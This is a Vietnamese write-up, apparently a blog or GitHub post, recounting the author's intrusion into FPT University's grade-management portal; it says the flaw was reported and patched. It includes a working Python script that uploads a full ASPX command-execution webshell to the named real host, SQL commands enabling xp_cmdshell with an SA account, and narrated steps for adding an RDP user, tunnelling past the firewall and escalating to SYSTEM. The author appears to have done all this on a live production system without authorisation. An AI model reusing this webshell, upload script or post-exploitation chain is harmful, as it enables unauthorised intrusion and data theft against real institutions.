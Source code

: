 # Tôi đã hack trang quản lý điểm của FPT như thế nào?

> Lỗ hổng đã report và được vá

> Do tình trạng dịch đang bùng phát nên sinh viên học sinh toàn quốc được nghỉ học, mình có nhiều thời gian rảnh rỗi để vọc này kia, thế là quyết định lấy con FAP của trường ra thông thử

<img src="fap.fpt.png">

* Đây là giao diện của website, sau khi login thì mình F12 view-source xem có gì hay ho không thì phát hiện ra 1 url 

<img src="view-source.fpt.png">

`/SRS/AddQA.aspx`

* Truy cập vào là một giao diện ý kiến của mình gửi cho nhà trường và có form upload

<img src="form-upload.fpt.png">

* Do ở đây mình không biết chính xác subject code các kiểu nên intercept nó lại và đẩy vào burpsuite để bắt request response của nó xem như thế nào

<img src="burpsuite.fpt.png">

* Thì phát hiện ra một số param và endpoint để tấn công

  * Thứ nhất:
  
 ```
Content-Type: multipart/form-data;
 boundary=---------------------------324402796424983 -----------------------------324402796424983 
Content-Disposition: form-data; name=“ctl00mainContentmainContentfileUpLoad”; filename=“1.aspx”
aaa-----------------------------324402796424983 Content-Disposition: form-data; name=“ctl00mainContentmainContentbtnUpLoad”

Send Question
```

* Có params và content-type để gửi file
  
  * Thứ 2:
  
  <img src="params&content-type.fpt.png">
  
  * Request mình upload file lên sẽ được xử lý ở upload.aspx và lưu trong /temp/MOOC/‘tên file’
Ý tưởng là sẽ dùng params có sẵn ở request để post file lên server thông qua upload.aspx, payload python đơn giản để test thử con shell:
```py
import requests

url = "http://fap.fpt.edu.vn/SRS/upload.aspx"
payload = """<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">
Sub RunCmd(Src As Object, E As EventArgs)
  Dim myProcess As New Process()
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)
  myProcessStartInfo.UseShellExecute = false
  myProcessStartInfo.RedirectStandardOutput = true
  myProcess.StartInfo = myProcessStartInfo
  myProcessStartInfo.Arguments=xcmd.text
  myProcess.Start()
  Dim myStreamReader As StreamReader = myProcess.StandardOutput
  Dim myString As String = myStreamReader.Readtoend()
  myProcess.Close()
  mystring=replace(mystring,"<","&lt;")
  mystring=replace(mystring,">","&gt;")
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"
End Sub
</script>

<html>
<body>
<form runat="server">
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>
<asp:TextBox id="xpath" runat="server" Width="300px">c:\\windows\\system32\\cmd.exe</asp:TextBox>
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>
<p><asp:Label id="result" runat="server"></asp:Label>
</form>
</body>
</html>"""
files = [('ctl00$mainContent$fileUpLoad', ('1.aspx', payload, 'image/jpeg')), ('ctl00$mainContent$btnUpLoad', ('1.aspx', 'Send Question'))]


headers = {
  'Host': 'fap.fpt.edu.vn',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0 Waterfox/56.3',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Connection': 'close',
  'Upgrade-Insecure-Requests': '1',
  'Cache-Control': 'max-age=0',
  'Content-Length': '300'
}

response = requests.post(url, headers=headers, files=files)

print(response.text)
```

* Sau khi thực thi payload kết quả trả về:

<img src="payload.fpt.png">
  
* Url trả về cho thấy mình đã post được con shell lên server tiếp theo là access con shell qua url trả về

<img src="shell.fpt.png">

<img src="web.config.fpt.png">

* Sau khi dùng string connect thành công, ở đây là user SA thì có khả năng đủ quyền để enable hàm xp_cmdshell trên mssql, sau đó gọi đến command line và thực thi lệnh

```
- EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
- EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

<img src="rce.fpt.png">

* Vậy là đã RCE thành công, tiếp tục là add user vô rdp

<img src="add-user.fpt.png">

* Vậy là đã tạo được user trên server. Bước tiếp theo khá là quan trọng vì port rdp được bảo vệ bởi firewall, mình không thể connect từ ngoài vào được, nên mình sẽ sử dụng kĩ thuật tunnel

* Cơ chế hoạt động của Tunna như sau:

<img src="tunna-rdp-fpt.png">

* Hiểu nôm na là hacker sẽ thông qua 1 con webshell đã được gắn trên server, vượt qua firewall, và đem port trong local ra ngoài để mạng mình có thể connect tới,

* Sau khi Tunnel thành công mình đã connect được rdp qua tài khoản và mật khẩu vừa tạo

<img src="connect-rdp.fpt.png">

* Chưa dừng ở đây, do bản server win dùng khá củ nên mình thử sử dụng exploit leo quyền CVE-2019-1388, lỗi này leo quyền logic dựa trên Windows Certificate Dialog

<img src="system.fpt.png"> 

> Kết quả là đã leo lên quyền system thành công!


